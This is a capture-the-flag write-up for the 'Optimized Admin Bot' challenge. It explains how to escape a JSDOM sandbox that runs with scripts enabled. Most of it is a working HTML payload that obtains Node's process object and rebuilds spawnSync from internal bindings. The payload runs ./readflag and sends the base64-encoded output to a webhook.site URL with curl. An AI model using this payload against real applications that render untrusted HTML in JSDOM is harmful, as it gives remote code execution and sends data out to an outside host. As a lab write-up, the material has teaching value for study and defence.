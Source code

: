# Optimized Admin Bot
> *First blood🩸*
## Description
By jayden

Launching a whole instance of Chromium for basic client-side challenges is so archaic and uselessly resource-intensive. Check out my optimized admin bot!

https://klodd.vsc.tf/challenge/optimized-admin-bot

Downloads
optimized-admin-bot.zip
## Solution
> reference: [escape-nodejs-sandboxes](https://www.netspi.com/blog/technical/web-application-penetration-testing/escape-nodejs-sandboxes/)

Basically this is a JSDom jail challenge, we want to have a RCE and execute `./readflag` in nodeJS:
```javascript
new JSDOM(webpage, {
    runScripts: "dangerously",
})
```
Therefore, by researching "JSDom jail" and sth, I got a link then [jsdom/jsdom/issues/2729](https://github.com/jsdom/jsdom/issues/2729#issuecomment-559928366).  
It points out that I can use:
```javascript
const process = Node.constructor("return process")();
const fs = process.binding('fs');
```
inside JSDom to access `process` and `fs`.  
Then, according to reference, I have a script helper to do RCE in JSDom: [CapacitorSet](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822).  
So, here is the final payload:
```html
<html>
    <head></head>
<body>
  <script>
    const process = Node.constructor("return process")();

    // Source: https://github.com/nodejs/node/blob/master/lib/child_process.js

    // Defines spawn_sync and normalizeSpawnArguments (without error handling). These are internal variables.
    spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}

    // Defines spawnSync, the function that will do the actual spawning
    spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}

    const a = spawnSync("./readflag").stdout.toString('base64');
    // console.log(a);
    const url = "https://webhook.site/[redecated]/?a=" + a;
    spawnSync("curl", [url]).stdout;
  </script>
</body>
</html>
```